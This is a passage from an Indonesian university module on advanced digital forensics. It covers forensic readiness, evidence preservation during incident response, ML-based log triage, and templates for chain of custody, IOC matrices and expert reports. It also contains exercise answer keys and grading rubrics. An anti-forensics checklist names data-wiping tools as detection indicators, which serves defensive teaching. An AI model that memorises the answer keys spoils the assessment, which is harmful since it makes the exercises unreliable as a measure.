## Signal dan E2E Encryption: Realistic Forensic Limitations

### Yang Tidak Bisa Dilakukan (2025-2026)
- Decrypt Signal messages tanpa akses ke device yang sudah di-unlock
- Intercept E2E encrypted traffic (WhatsApp, iMessage di ADP) secara matematis tidak feasible
- Reverse E2E key exchange dari network traffic saja

### Yang Masih Possible (pada device berotorisasi)
- Signal local database dapat di-access jika device ter-unlock dan file system accessible
  (namun Signal mengecualikan dirinya dari backup)
- iMessage tanpa Advanced Data Protection dapat di-backup ke iCloud (accessible via legal)
- WhatsApp backup di Google Drive/iCloud (terenkripsi, namun key retrieval possible
  dengan Google/Apple cooperation via legal process)
- Metadata (siapa menghubungi siapa, kapan, berapa lama) — tersimpan di provider
  bahkan jika content encrypted

### Implikasi
Communication platform dengan E2E adalah legitimate tool privasi.
Investigator harus mendokumentasikan secara jujur bahwa communication content
tidak dapat diakses, dan mengandalkan metadata dan corroborating evidence lain.
```

### 4.2 Integrasi Forensic-IR: NIST SP 800-61 Perspective

```mermaid
flowchart TD
    PREPARE["PREPARE\nForensic Readiness:\n- Logging config\n- Retention policy\n- CoC procedure\n- Acquisition tools ready"] --> DETECT
    DETECT["DETECT & ANALYZE\nIR Team Lead:\n- Alert triage\n- Scope definition\n- Forensic team engagement"] --> CONTAIN
    CONTAIN["CONTAIN\nForensic Focus:\n- Evidence preservation\n  sebelum containment\n  mengubah state!\n- Memory dump sebelum\n  shutdown"] --> ERADICATE
    ERADICATE["ERADICATE & RECOVER\nPost-Containment:\n- Forensic analysis\n  dari preserved evidence\n- Root cause analysis"] --> POST
    POST["POST-INCIDENT\nForensic Report:\n- Expert report\n- Lessons learned\n- Remediation tracking"]
```

**Kritis: Evidence preservation sebelum containment:**

```markdown
## The IR-Forensics Tension

### Masalah
IR team ingin SEGERA contain (isolate, shutdown, patch) untuk menghentikan damage.
Forensic investigator ingin DULU preserve evidence (memory dump, network state)
sebelum apapun berubah.

### Trade-off
Containment dini → mengurangi damage, namun mungkin menghilangkan volatile evidence.
Evidence preservation dulu → evidence lebih lengkap, namun attacker masih aktif lebih lama.

### Best Practice
1. Jika memungkinkan: ambil memory dump dan network snapshot SEBELUM isolate/shutdown
2. Jika tidak memungkinkan: document state yang terlihat sebelum containment
   (screenshot, notes, log export cepat)
3. Sepakati protocol IR-Forensic SEBELUM insiden terjadi (bukan debat saat krisis)
4. Log semua tindakan IR (siapa melakukan apa, kapan) — ini adalah CoC yang terjadi
   secara retroaktif namun tetap penting

### Template: IR-Forensic Protocol
Ketika IR team engage forensic team, informasi yang harus langsung disampaikan:
- Estimated time of initial compromise (untuk menentukan log window)
- Systems/assets yang ter-impact
- Tindakan IR yang sudah dilakukan (reboot? Patch? Isolate?)
  → ini mempengaruhi evidence yang masih tersedia
- Legal requirement: criminal investigation (polisi) atau civil/HR saja?
```

### 4.3 AI-Assisted Forensics: Peluang dan Keterbatasan

```python
"""
Contoh penggunaan ML sederhana untuk anomaly detection dalam log.
BUKAN untuk menghasilkan forensic conclusions — hanya untuk triage/flagging.
"""
import numpy as np
from sklearn.preprocessing import StandardScaler
from sklearn.ensemble import IsolationForest

def detect_log_anomalies(user_session_data):
    """
    Gunakan Isolation Forest untuk mendeteksi session anomali.
    Input: array of [login_hour, session_duration_min, data_volume_mb, 
                     unique_resources_accessed]
    
    PENTING: Output ini adalah CANDIDATE untuk investigasi lebih lanjut,
    BUKAN bukti forensik. Setiap "anomali" harus divalidasi secara manual.
    """
    scaler = StandardScaler()
    data_scaled = scaler.fit_transform(user_session_data)
    
    clf = IsolationForest(contamination=0.05, random_state=42)
    predictions = clf.fit_predict(data_scaled)
    
    anomaly_indices = np.where(predictions == -1)[0]
    
    print(f"Detected {len(anomaly_indices)} potentially anomalous sessions")
    print("NOTE: These are candidates for manual investigation — NOT forensic findings.")
    print("Verify each flagged session against raw log before drawing conclusions.")
    
    return anomaly_indices

# Contoh data (fiktif, untuk demonstrasi):
sessions = np.array([
    # [hour, duration_min, volume_mb, resources]
    [9, 45, 15, 8],    # Normal session
    [10, 30, 12, 6],   # Normal
    [14, 60, 20, 12],  # Normal
    [23, 5, 2350, 1],  # ANOMALI: tengah malam, volume sangat besar
    [2, 3, 1800, 1],   # ANOMALI: dini hari, volume besar
])

anomalies = detect_log_anomalies(sessions)
# Investigator kemudian memeriksa manual sesi pada indeks 3 dan 4
```

### 4.4 Forensic Readiness Strategy untuk Organisasi

```markdown
## Forensic Readiness Program Framework

### Level 1: Basic (minimum viable)
- Logging diaktifkan untuk semua sistem kritikal
- Log retention minimum 90 hari (1 tahun untuk aset kritikal)
- Write-blocker dan imaging tool tersedia di IT Security team
- CoC procedure terdokumentasi dan diketahui tim IT

### Level 2: Intermediate
- SIEM aktif dengan alert untuk event forensically significant
- Memory acquisition tool siap di setiap server kritikal
- Evidence storage terpisah (bukan di sistem yang sama dengan evidence)
- Incident response retainer dengan forensic firm eksternal
- Annual tabletop exercise termasuk forensic scenario

### Level 3: Advanced
- Legal hold procedure terdokumentasi dan tested
- Cloud log centralization (semua cloud activity ke SIEM)
- Forensic readiness assessment tahunan terhadap gap analysis framework
- Relasi dengan penegak hukum (Polri Cybercrime) untuk kasus pidana
- Budget dedicated untuk forensic tools, training, dan lab maintenance

### Metrics untuk Program Maturity
- MTTD: Mean Time to Detect (semakin cepat, semakin baik)
- MTTA: Mean Time to Acquire evidence (target: <4 jam untuk kritikal)
- Evidence availability rate: berapa % insiden dapat diselidiki dengan evidence yang memadai?
- Successful prosecution rate: berapa % kasus yang dilanjutkan ke hukum berhasil?
```

## 5. Model atau Arsitektur

```mermaid
flowchart TD
    subgraph CURRENT["Teknik Saat Ini (2024-2026)"]
        MEM["Memory Forensics\n(Volatility)"]
        DISK["Disk Forensics\n(NTFS, MFT)"]
        MOBILE["Mobile Forensics\n(logical, backup)"]
        CLOUD["Cloud Forensics\n(API logs, audit)"]
    end
    
    subgraph EMERGING["Tantangan Emerging"]
        AI_GEN["AI-Generated Evidence:\nvalidasi provenance"]
        E2E["E2E Encryption:\nfokus ke metadata\ndan corroboration"]
        IOT["IoT Forensics:\nprotokol baru,\nstandard masih berkembang"]
        SERVERLESS["Cloud-Native:\nserverless, ephemeral —\nlog is only evidence"]
    end
    
    subgraph FUTURE["Arah Masa Depan"]
        AI_ASSIST["AI-Assisted Triage:\nML untuk prioritasi,\nbukan conclusion"]
        BLOCKCHAIN["Blockchain Evidence:\nNFT/smart contract\nforensics"]
        QUANTUM["Post-Quantum:\ncryptography changes\nhash algorithm"]
    end
    
    CURRENT --> EMERGING --> FUTURE
```

## 6. Contoh Terapan

**Forensic Readiness Gap Analysis untuk organisasi SME:**

```markdown
## Forensic Readiness Assessment — Contoh Output

Organisasi: PT. Contoh Indonesia (150 karyawan, mixed cloud/on-premise)
Assessment date: November 2025

### TEMUAN GAP

| Area | Current State | Target | Gap | Prioritas |
|---|---|---|---|---|
| Log retention | 30 hari (default) | 1 tahun | 11 bulan | CRITICAL |
| Memory acquisition tools | Tidak ada | Siap di 3 server kritikal | Belum tersedia | HIGH |
| SIEM | Tidak ada | SIEM dengan alert | Tidak ada alerting | HIGH |
| CoC procedure | Tidak terdokumentasi | Dokumen tersedia dan dilatih | Tidak ada | MEDIUM |
| Cloud log centralization | Logs tersebar | Centralized log | Tidak terintegrasi | MEDIUM |
| IR retainer | Tidak ada | Annual retainer | Tidak ada | LOW |

### REKOMENDASI PRIORITAS

1. Tingkatkan log retention ke minimum 1 tahun: estimasi cost ↑ storage 500 GB/tahun
2. Implementasi SIEM open-source (Wazuh atau Graylog): pilot dalam 3 bulan
3. Beli write-blocker dan install WinPmem/LiME di 3 server utama: biaya ~$500
4. Dokumentasikan CoC procedure dalam 2 halaman SOP: dapat dilakukan minggu ini
```

## 7. Praktikum atau Aktivitas Terarah

**Tujuan:** Merancang forensic readiness program untuk organisasi fiktif.

**Aktivitas:**
1. Baca profile organisasi yang diberikan dosen (ukuran, industri, cloud/on-premise mix).
2. Lakukan gap analysis menggunakan framework yang disediakan.
3. Buat prioritized roadmap (3-12 bulan).
4. Estimasi biaya kasar untuk setiap improvement.
5. Buat 1 tabletop exercise scenario berdasarkan profil risiko organisasi.
6. Presentasikan gap analysis kepada "manajemen" (role-play dengan rekan).

## 8. Latihan Pemahaman

1. **(C5)** Mengapa "log is only evidence" merupakan pernyataan yang semakin benar dalam konteks cloud-native (serverless, containers ephemeral)? Apa implikasinya bagi forensic readiness strategy?

2. **(C4)** Seorang IR manager mengatakan: "Kita tidak perlu forensic readiness karena kita punya cyber insurance." Evaluasi pernyataan ini. Apa yang tidak dipahami IR manager tentang hubungan antara insurance dan forensic readiness?

## 9. Latihan Terapan / Studi Kasus

Perusahaan fintech dengan 50.000 pelanggan mengalami breach. Saat IR team tiba, ternyata: (a) log hanya ada 7 hari (default); (b) tidak ada memory acquisition tool; (c) server sudah di-reboot oleh sysadmin yang panik; (d) CoC belum pernah didengar oleh IT team. Analisis: (a) Bukti apa yang masih mungkin tersedia? (b) Apa dampak dari setiap gap terhadap investigasi? (c) Bagaimana merancang forensic readiness program untuk mencegah ini terulang? (d) Apakah breach ini perlu dilaporkan berdasarkan UU PDP No. 27/2022, dan apa keterbatasan forensik yang mempengaruhi kemampuan untuk membuat laporan yang akurat kepada regulator?

## 10. Kunci Jawaban dan Pembahasan

**Soal 1:** Dalam arsitektur cloud-native: Lambda function berjalan selama detik dan kemudian hilang; container dalam Kubernetes di-create dan di-destroy secara otomatis; auto-scaling instances ada dan pergi tanpa tindakan manual. Tidak ada "disk" yang persist di antara invocations. Satu-satunya artefak yang tersisa adalah log yang di-stream keluar dari container/function saat runtime ke log aggregation service (CloudWatch, Stackdriver, EFK). Jika log tidak dikonfigurasi atau tidak di-stream, investigasi tidak memiliki apa-apa. Implikasi untuk readiness: organisasi yang cloud-native HARUS menjadikan log streaming dan centralization sebagai default infrastructure requirement, bukan optional — ini adalah satu-satunya forensic artifact yang akan tersedia.

**Soal 2:** Pernyataan yang tidak tepat. Cyber insurance dapat membantu menutupi biaya (incident response, notification, ransom) namun tidak menggantikan forensic readiness karena: (1) Banyak insurance policy mensyaratkan bukti forensik yang adequate untuk klaim — tanpa forensic readiness, klaim bisa ditolak; (2) Insurance tidak membantu jika organisasi tidak bisa menunjukkan apa yang terjadi untuk memenuhi kewajiban regulatory reporting (UU PDP mensyaratkan notifikasi breach dengan detail); (3) Jika insiden melibatkan kriminal, forensic evidence diperlukan untuk penuntutan — insurance tidak bisa menggantikan ini; (4) Lessons learned dari insiden memerlukan forensic analysis — tanpa itu, organisasi tidak bisa mencegah insiden serupa.

**Studi Kasus:** (a) Evidence yang mungkin masih tersedia: 7 hari terakhir log (dari sebelum tanggal breach); filesystem state saat ini (post-reboot — disk artifacts mungkin masih ada: bash_history, cron, config files, malware yang tidak di-clean); cloud/SaaS logs jika ada (email, cloud storage, external services); backup pre-incident jika ada; CCTV dan physical access log. (b) Dampak gap: Log 7 hari — jika breach dimulai >7 hari lalu, tidak ada log untuk periode awal; reboot server — hilangnya seluruh memory state (proses, network connections, bash history dalam memory); tidak ada memory tool — bahkan jika tidak di-reboot, tidak ada cara capture; tidak ada CoC — semua yang dilakukan sebelum CoC procedure dimulai dipertanyakan admissibilitynya. (c) Forensic readiness program: segera: implementasi log retention 1 tahun; beli memory acquisition tool; latih IT team tentang evidence preservation dan "jangan reboot dulu"; buat satu halaman CoC quick reference. 3 bulan: implementasi SIEM; dokumentasikan IR procedure yang mencakup "call forensic team sebelum containment tindakan apapun". (d) UU PDP No. 27/2022: breach 50.000 data pribadi pelanggan fintech hampir pasti wajib dilaporkan kepada BSSN dan pemilik data (pelanggan). Keterbatasan forensik yang mempengaruhi laporan: tanpa log yang adequate, organisasi tidak dapat memberi tahu regulator dengan pasti: (i) kapan breach dimulai; (ii) data spesifik mana yang terekspos; (iii) berapa record yang terdampak (hanya bisa estimasi dari tabel yang diakses). Ketidakmampuan memberikan detail yang akurat kepada regulator sendiri dapat dianggap pelanggaran terpisah.

## 11. Ringkasan Bab

Forensik digital menghadapi tantangan emerging: AI-generated content memerlukan provenance validation baru; E2E encryption membatasi akses ke content namun metadata masih accessible; cloud-native menjadikan log sebagai satu-satunya forensic artifact. Integrasi IR-Forensic memerlukan protocol pre-agreed tentang sequencing containment dan evidence preservation. AI dapat membantu triage namun tidak dapat menghasilkan forensic conclusions. Forensic readiness adalah investasi organisasional yang menentukan kemampuan investigasi saat insiden terjadi.

## 12. Refleksi Profesional

1. Forensik digital adalah bidang di mana kompetensi yang tidak diperbarui dapat menjadi liability — bukan hanya bagi karir, tetapi bagi tersangka dan korban yang mengandalkan kualitas investigasi. Bagaimana Anda membangun rencana continuous learning sebagai profesional forensik untuk tetap relevan dalam 5 tahun ke depan? Sumber apa yang akan Anda ikuti, sertifikasi apa yang akan Anda kejar, dan komunitas apa yang akan Anda ikuti?


---

# LAMPIRAN

---

## LAMPIRAN A — TEMPLATE CHAIN OF CUSTODY

```
CHAIN OF CUSTODY FORM — MK-E-06 Advanced Digital Forensics

CASE INFORMATION
Case ID        : ___________________________
Lead Investigator : ___________________________
Secondary Inv.   : ___________________________
Client/Organization: ___________________________
Date Initiated   : ___________________________

EVIDENCE ITEM
Evidence ID (EID) : ___________________________
Description      : ___________________________
Source Location  : ___________________________
Acquisition Date/Time (UTC): __________________
Acquisition Method: ___________________________
Acquired by      : ___________________________

HASH VERIFICATION
Source hash (pre-acquisition) : _______________
Hash algorithm              : □ SHA-256 □ MD5
Image hash (post-acquisition) : _______________
Verification result         : □ MATCH □ MISMATCH
Verified by                : _______________

STORAGE
Storage location  : ___________________________
Storage media type : ___________________________
Storage media serial# : ________________________
Sealed by        : ___________________________
Seal intact      : □ Yes □ No
Current custodian  : ___________________________

TRANSFER LOG
| Date/Time (UTC) | Transferred From | Transferred To | Purpose | Sig From | Sig To |
|---|---|---|---|---|---|
|   |   |   |   |   |   |
|   |   |   |   |   |   |

ACCESS LOG
| Date/Time (UTC) | Accessed By | Purpose | Duration | Notes |
|---|---|---|---|---|
|   |   |   |   |   |
|   |   |   |   |   |

SEAL INTEGRITY
Each time evidence is opened: document, then re-seal and initial the new seal.
Seal # | Opened Date/Time | By | Reason | Re-sealed by
---
```

---

## LAMPIRAN B — TEMPLATE MEMORY FORENSICS REPORT

```markdown
# MEMORY FORENSICS REPORT
## Case Reference: [CASE-ID]

### Document Control
| Field | Value |
|---|---|
| Prepared by | [Nama] |
| Date | [Tanggal UTC] |
| Tool | Volatility 3 v[X.X.X] |
| Evidence | [EID — memory dump filename] |
| Evidence hash | SHA-256: [hash] |
| Working copy hash | SHA-256: [hash] — HARUS IDENTIK |

---

### 1. Memory Image Verification
```bash
sha256sum [memory_file.lime]
# Expected: [hash dari evidence register]
# Actual: [output sha256sum]
# Result: MATCH / MISMATCH
```

### 2. System Information
```
volatility3 -f [file] linux.info / windows.info
[output verbatim]
```
OS: ___________  Kernel/Build: ___________  Architecture: ___________

### 3. Process Analysis
**Command:**
```bash
volatility3 -f [file] windows.pslist / linux.pslist
```
**Output:** [verbatim — atau lampirkan sebagai file terpisah]

**Anomalies Identified:**
| PID | Process Name | PPID | Anomaly Type | Confidence |
|---|---|---|---|---|
|   |   |   |   |   |

### 4. Network Connections
**Command:**
```bash
volatility3 -f [file] windows.netscan / linux.netstat
```
**Anomalous Connections:**
| Protocol | Local Address | Foreign Address | State | PID | Confidence |
|---|---|---|---|---|---|
|   |   |   |   |   |   |

### 5. Code Injection / Malicious Artifacts
[Jika relevan — malfind output, dll analysis]

### 6. Credentials / Registry
[Jika relevan — hivelist, printkey, LSASS indicators]

### 7. IOC Summary
| IOC Type | Value | Source Plugin | Confidence | Notes |
|---|---|---|---|---|
|   |   |   |   |   |

### 8. Hash Verification (Post-Analysis)
```bash
sha256sum [memory_file.lime]
# Result: [hash] — HARUS identik dengan pre-analysis hash
```

### 9. Limitation Statement
[Cantumkan keterbatasan analisis: tool limitations, profile issues, dsb]

### 10. Reproducibility Note
Seluruh analisis dapat direproduksi dengan perintah yang terdokumentasi di atas.
Tool yang digunakan: Volatility 3 v[X], hash: [tool binary hash].
```

---

## LAMPIRAN C — TEMPLATE IOC MATRIX

```markdown
# IOC MATRIX — CASE [ID]

| IOC ID | Type | Value | Source | Confidence | First Seen | Last Seen | Notes |
|---|---|---|---|---|---|---|---|
| IOC-001 | IP Address | 198.51.100.42 | Firewall + Memory netstat | HIGH | 2025-11-14T23:40 | 2025-11-15T00:05 | C2/exfil destination |
| IOC-002 | Process Name | svchost32.exe | Memory pslist | HIGH | 2025-11-14T23:41 | 2025-11-14T23:58 | Masquerading — bukan system svchost |
| IOC-003 | File Hash | a1b2c3d4... | Disk analysis | HIGH | 2025-11-14 | 2025-11-14 | Malware hash |
| IOC-004 | Registry Key | HKLM\...\Run\svc | Memory registry | MEDIUM | 2025-11-14 | N/A | Persistence mechanism |
| IOC-005 | Mutex | Global\uniqueXX | Memory handles | LOW | 2025-11-14 | N/A | Known malware family mutex (unverified) |

## IOC Confidence Criteria
HIGH: Teridentifikasi dari 2+ sumber independen ATAU divalidasi terhadap threat intel database
MEDIUM: 1 sumber forensik, tidak ada external validation
LOW: Indicative evidence saja, perlu investigasi lebih lanjut

## Recommended Actions per IOC
IOC-001 (IP): Block di perimeter firewall, ajukan preservation request ke ISP
IOC-002 (Process): Scan semua endpoint untuk hash yang sama; quarantine jika ditemukan
IOC-003 (Hash): Submit ke VirusTotal (setelah mendapat izin data handling); scan all endpoints
IOC-004 (Registry): Remediate pada semua system; monitor untuk re-emergence
IOC-005 (Mutex): LOW priority — verifikasi dulu sebelum remediation
```

---

## LAMPIRAN D — ANTI-FORENSICS DETECTION CHECKLIST

```markdown
# ANTI-FORENSICS DETECTION CHECKLIST

## 1. TIMESTAMP ANOMALIES
□ Bandingkan $STANDARD_INFORMATION vs $FILE_NAME timestamps untuk semua file kritis
□ Cari "M before B" (Modified sebelum Born) — indicator timestomping
□ Cari timestamps yang terlalu "round" (00:00:00, atau tanggal seperti 2000-01-01)
□ Catat discrepancy >1 detik antara $SI dan $FN sebagai suspicious

## 2. FILE WIPING INDICATORS
□ Cari prefetch untuk tool wiping: SDelete, Eraser, shred, srm, CCleaner, cipher /w
□ Cari UserAssist entries untuk wiping tool execution
□ Cari LNK files yang reference ke wiping tool
□ Analisis unallocated space: pattern fill (0x00, 0xFF, atau random) = probable wipe
□ Cari MFT entries dengan $DATA size=0 tapi allocated size >0

## 3. LOG TAMPERING
□ Cari EventID 1102 (Security log cleared)
□ Cari EventID 104 (System log cleared)  
□ Analisis sequence number gaps dalam EVTX files (>100 record gap = suspicious)
□ Bandingkan log file mtime dengan expected log generation pattern
□ Cek apakah Syslog pada Linux telah di-rotate lebih cepat dari policy

## 4. ENCRYPTION / OBFUSCATION
□ Cari file dengan extension yang tidak cocok dengan magic bytes
□ Cari VeraCrypt, TrueCrypt, BitLocker mounted volume artefaks di registry
□ Cari file tanpa extension atau dengan random names di %TEMP%
□ Cek Alternate Data Streams untuk file-file kritis

## 5. ROOTKIT / HIDING
□ Bandingkan pslist vs psscan (Volatility) — discrepancy = DKOM/rootkit
□ Cek lsmod vs /proc/modules (Linux) — hidden kernel module
□ Cari ADS menggunakan streams.exe atau PowerShell Get-Item -Stream *
□ Cek untuk signed-but-modified binary (PEiD, ExifTool)

## SEVERITY CLASSIFICATION
CRITICAL: Direct evidence of deliberate evidence destruction
HIGH: Strong indicators that require corroboration  
MEDIUM: Suspicious but with plausible alternative explanation
LOW: Anomalous but may be benign
```

---

## LAMPIRAN E — TEMPLATE EXPERT WITNESS REPORT (RINGKASAN)

```markdown
# DIGITAL FORENSIC EXPERT WITNESS REPORT (ABBREVIATED TEMPLATE)
## Case: [CASE-ID] | Court: [Pengadilan] | Case No: [Nomor Perkara]

---

## I. EXPERT QUALIFICATIONS
Nama: ___________________
Kualifikasi: ___________________
Pengalaman relevant: ___________________
Jumlah kasus sebelumnya: ___________________
Tidak ada konflik kepentingan: □ Confirmed

---

## II. SCOPE OF ENGAGEMENT
Saya ditugaskan untuk: ___________________
Saya TIDAK ditugaskan untuk: ___________________
Pertanyaan yang harus dijawab: ___________________

---

## III. METHODOLOGY (RINGKASAN)
Standar yang diikuti: NIST SP 800-86 / ISO/IEC 27037
Evidence yang dianalisis: [list EID]
Hash integrity: □ Verified — semua working copies cocok dengan original
Chain of custody: □ Intact

---

## IV. KEY FINDINGS (RINGKASAN)

| Finding | Confidence | Supporting Evidence |
|---|---|---|
|   |   |   |

---

## V. OPINIONS AND CONCLUSIONS
[Dinyatakan dalam bahasa yang jelas, tanpa jargon berlebihan]
Berdasarkan analisis forensik yang dilakukan:
1. ...
2. ...

Pendapat ini berdasarkan evidence yang tersedia pada saat analisis. 
Temuan baru atau evidence tambahan dapat mengubah pendapat ini.

---

## VI. LIMITATION OF OPINIONS
Pendapat saya TIDAK mencakup:
1. ___________________
2. ___________________

---

## VII. ATTESTATION
Saya menyatakan dengan sesungguhnya bahwa:
- Pendapat di atas adalah pendapat jujur saya berdasarkan analisis yang dilakukan
- Saya memberikan opini yang sama terlepas dari siapa yang membayar jasa saya
- Saya akan memberitahu pengadilan jika ada informasi baru yang mempengaruhi pendapat saya

[Nama, Tanda Tangan, Tanggal]
```

---

## LAMPIRAN F — RUBRIK PENILAIAN CAPSTONE

```markdown
# RUBRIK PENILAIAN — CAPSTONE ADVANCED DIGITAL FORENSICS
## Eval-5 / EAS (25% dari Total Nilai)

### KOMPONEN 1: Investigation Design Document (IDD) — 20%
| Kriteria | Excellent (A) | Good (B) | Adequate (C) | Poor (<C) |
|---|---|---|---|---|
| Kelengkapan IDD | Semua komponen lengkap, scope jelas, otorisasi terdokumentasi | Sebagian besar lengkap, minor gaps | Komponen utama ada, beberapa bagian kurang | Banyak komponen hilang |
| Forensic Hypotheses | 3 hypotheses yang falsifiable, artefak pendukung dan pemantah terdefinisi | 2-3 hypotheses, sebagian falsifiable | 1-2 hypotheses, kurang falsifiable | Tidak ada atau tidak falsifiable |
| Evidence Priority | Prioritas logis berdasarkan volatility+relevance, evidence plan lengkap | Prioritas ada, justifikasi terbatas | Prioritas ada namun tidak logis | Tidak ada prioritas |
| Ethical Constraints | Lengkap, menunjukkan pemahaman mendalam batasan hukum dan etika | Mencakup poin utama | Disebutkan tapi dangkal | Tidak ada |

### KOMPONEN 2: Analysis Execution — 30%
| Kriteria | Excellent | Good | Adequate | Poor |
|---|---|---|---|---|
| Kedalaman Memory Analysis | Menggunakan ≥5 plugin, mengidentifikasi anomali tersembunyi | 3-4 plugin, anomali teridentifikasi | 1-2 plugin, analisis minimal | Plugin tidak sesuai atau tidak digunakan |
| Dokumentasi Verbatim | Semua perintah dicatat verbatim dengan output | Sebagian besar dicatat | Sebagian kecil dicatat | Tidak ada dokumentasi perintah |
| Hash Verification | Diverifikasi pre dan post-analysis, disertakan dalam laporan | Pre atau post saja | Ada namun tidak konsisten | Tidak ada |
| Corroboration | Setiap finding HIGH confidence memiliki ≥2 sumber independen | Sebagian besar ≥2 sumber | 1 sumber untuk kebanyakan | Tidak ada corroboration |

### KOMPONEN 3: Expert Report — 35%
| Kriteria | Excellent | Good | Adequate | Poor |
|---|---|---|---|---|
| Executive Summary | Non-teknis, faktual, mencakup key findings dan uncertainty | Sebagian besar non-teknis, minor overclaim | Terlalu teknis atau minor overclaim | Overclaim atau tidak menangkap key findings |
| Hypothesis Conclusion | Semua hypotheses di-address dengan verdict jelas dan justifikasi evidence | H1 dan H2 di-address | Hanya satu hypothesis | Tidak di-address |
| Limitation Statement | Komprehensif, mencakup semua keterbatasan yang teridentifikasi | Mencakup keterbatasan utama | Ada tapi tidak lengkap | Tidak ada |
| Anti-Forensics Section | Jika ada: teridentifikasi dan didokumentasikan dengan tepat | Disebutkan tapi kurang detail | Ada tapi kurang tepat | Tidak ada padahal ada indikator |
| Bahasa dan Objektivitas | Tidak ada overclaim, bahasa factual, uncertainty dinyatakan | Minor overclaim | Beberapa overclaim | Banyak overclaim atau bias jelas |

### KOMPONEN 4: Reproducibility Package — 15%
| Kriteria | Excellent | Good | Adequate | Poor |
|---|---|---|---|---|
| Command Log | Semua perintah lengkap, berurutan, dapat dieksekusi ulang | Sebagian besar perintah | Beberapa perintah | Tidak ada atau tidak berguna |
| Tool Inventory | Semua tool dengan versi, hash bila tersedia | Tool dan versi | Tool saja | Tidak ada |
| Evidence Register | EID, hash, CoC, access log semua lengkap | Sebagian besar field | Hanya field utama | Tidak ada |

### Catatan Khusus
- Pengurangan 10% jika ada plagiarisme atau penggunaan AI untuk generate analisis tanpa verifikasi
- Pengurangan 20% jika evidence original (bukan working copy) dimodifikasi
- Nilai 0 jika laporan mengandung evidence yang difabrikasi
```

---

## LAMPIRAN G — PERNYATAAN ETIKA PRAKTIKUM

```markdown
# PERNYATAAN ETIKA PRAKTIKUM
## MK-E-06: Advanced Digital Forensics

---

Saya yang bertanda tangan di bawah ini:

Nama  : ___________________________
NIM   : ___________________________
Kelas  : ___________________________

Dengan ini menyatakan bahwa dalam seluruh kegiatan praktikum mata kuliah 
MK-E-06 Advanced Digital Forensics, saya BERKOMITMEN untuk:

### 1. LEGALITAS
□ Hanya melakukan akuisisi dan analisis pada perangkat yang secara eksplisit 
  diotorisasi untuk keperluan pembelajaran ini (perangkat sendiri atau dataset 
  yang disediakan dosen)
□ Tidak melakukan akuisisi atau analisis perangkat, akun, atau sistem pihak 
  ketiga tanpa izin tertulis
□ Tidak menggunakan teknik yang dipelajari untuk tujuan di luar pembelajaran ini

### 2. INTEGRITAS EVIDENCE
□ Tidak memodifikasi evidence asli dalam kondisi apapun
□ Selalu bekerja pada working copy (salinan), bukan original
□ Mendokumentasikan setiap tindakan dengan verbatim dan timestamp

### 3. PRIVASI
□ Dataset yang mengandung data pribadi hanya akan digunakan untuk keperluan 
  analisis dalam konteks kelas
□ Tidak akan membagikan, menyebarkan, atau mempublikasikan data pribadi 
  yang mungkin ada dalam dataset
□ Temuan yang mungkin menyangkut privasi individu akan disampaikan kepada 
  dosen, bukan disebarkan

### 4. OBJEKTIVITAS
□ Melaporkan temuan secara akurat termasuk yang tidak mendukung hipotesis saya
□ Tidak akan memfabrikasi, memanipulasi, atau menghilangkan evidence dari laporan

### 5. KERAHASIAAN
□ Detail teknis dari dataset kasus dan metodologi tidak akan disebarkan di luar 
  konteks kelas tanpa izin dosen

Saya memahami bahwa pelanggaran terhadap pernyataan ini dapat berakibat:
- Nilai 0 untuk tugas/praktikum terkait
- Pelaporan kepada komite disiplin mahasiswa
- Potensi tindakan hukum jika melibatkan pelanggaran terhadap sistem nyata

Dinyatakan di: ___________________
Tanggal     : ___________________
Tanda Tangan: ___________________
```

---

# KUNCI JAWABAN GLOBAL DAN CATATAN DOSEN

## Panduan Penggunaan

Bagian ini berisi panduan penilaian untuk dosen, bukan untuk mahasiswa. Mahasiswa merujuk ke Kunci Jawaban per Bab yang sudah tersedia di masing-masing bab.

## Catatan Pedagogis Per Bab

**Bab 1–3 (Scoping, CoC, Triage):** Fokus pada proses pengambilan keputusan, bukan hafalan. Pertanyaan evaluasi yang baik adalah "mengapa Anda memilih ini" bukan "apa itu X." Pastikan mahasiswa memahami bahwa scoping yang buruk adalah akar masalah sebagian besar investigasi yang gagal.

**Bab 4–6 (Memory Forensics):** Practical skill yang dapat diverifikasi langsung. Minta mahasiswa menunjukkan output perintah Volatility yang sebenarnya, bukan deskripsi tentang output. Red flag: mahasiswa yang mendeskripsikan hasil tanpa command verbatim berarti tidak melakukan analisis sendiri.

**Bab 7–9 (Mobile, Cloud, Integrated Timeline):** Perhatikan apakah mahasiswa memahami keterbatasan akuisisi. Jawaban yang hanya mendeskripsikan "apa yang bisa dilakukan" tanpa menyebut "apa yang tidak bisa dilakukan" adalah jawaban yang tidak lengkap.

**Bab 10–11 (Anti-Forensics, Correlation):** Konsep kritis untuk Capstone. Pastikan mahasiswa dapat membedakan antara "tidak ada evidence" (absence of evidence) dan "evidence bahwa tidak ada" (evidence of absence).

**Bab 12–14 (Capstone):** Penilaian holistic — ini bukan sekedar tes teknis tapi uji kemampuan berpikir seperti investigator profesional. Laporan yang teknisnya benar namun overclaim atau tidak mendokumentasikan limitation tidak mendapat nilai penuh.

## Rubrik Singkat Evaluasi Laporan Capstone

Tanda laporan kualitas tinggi:
1. Executive summary dapat dipahami oleh non-teknis tanpa membaca sisa laporan
2. Setiap finding punya corroboration yang jelas (bukan "sources: memory")
3. Limitation statement spesifik (bukan "investigasi ini memiliki keterbatasan")
4. Hypothesis conclusion membedakan antara "supported", "cannot be excluded", dan "refuted"
5. Anti-forensics section ada (bahkan jika "not detected — tampak dari absence of usual indicators")

Tanda laporan kualitas rendah:
1. "Tersangka terbukti melakukan X" — overclaim
2. Tidak ada verbatim command output
3. Hash verification tidak dilakukan atau tidak didokumentasikan
4. Limitation statement tidak ada atau generik
5. H3 (null hypothesis) tidak pernah diuji

---

# DAFTAR PUSTAKA

## Buku Teks Utama

1. Casey, E. (2011). *Digital Evidence and Computer Crime: Forensic Science, Computers and the Internet*. 3rd ed. Academic Press.

2. Nelson, B., Phillips, A., & Steuart, C. (2019). *Guide to Computer Forensics and Investigations*. 6th ed. Cengage Learning.

3. Carvey, H. (2018). *Windows Registry Forensics: Advanced Digital Forensic Analysis of the Windows Registry*. 2nd ed. Syngress.

4. Carrier, B. (2005). *File System Forensic Analysis*. Addison-Wesley.

5. Ligh, M. H., Case, A., Levy, J., & Walters, A. (2014). *The Art of Memory Forensics: Detecting Malware and Threats in Windows, Linux, and Mac Memory*. Wiley.

## Standar dan Framework

6. NIST (2006). *SP 800-86: Guide to Integrating Forensic Techniques into Incident Response*. National Institute of Standards and Technology.

